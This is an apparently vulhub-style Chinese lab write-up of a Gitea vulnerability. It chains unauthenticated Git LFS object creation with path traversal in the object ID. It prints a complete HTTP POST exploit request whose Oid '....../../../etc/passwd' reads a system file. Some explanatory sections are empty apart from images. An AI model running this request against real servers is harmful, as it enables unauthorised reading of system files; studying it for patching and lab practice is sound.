


[Gate存在一个未授权漏洞](../未授权访问/未授权访问漏洞.md)

这个权限导致的结果是未授权的任意用户都可以为某个项目创建一个Git LFS对象。

这个LFS对象可以通过`http://example.com/vulhub/repo.git/info/lfs/objects/[oid]`这样的接口来访问，比如下载，写入内容等。

其中`[oid]`是LFS对象的ID，通常来说是一个哈希，但gitea中并没有限制这个ID允许包含的字符，这也是导致第二个漏洞的根本原因。


## 利用第一个未授权漏洞创建一个Oid为`....../../../etc/passwd`的LFS对象：

```shell
POST /vulhub/repo.git/info/lfs/objects HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: application/vnd.git-lfs+json
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 151

{
    "Oid": "....../../../etc/passwd",
    "Size": 1000000,
    "User" : "a",
    "Password" : "a",
    "Repo" : "a",
    "Authorization" : "a"
}
```

## 访问刚才创建的Oid对象进行文件读取。




Oid需要进行url编码。

## 为什么读取到了/etc/passwd文件：




## 参考

https://www.leavesongs.com/PENETRATION/gitea-remote-command-execution.html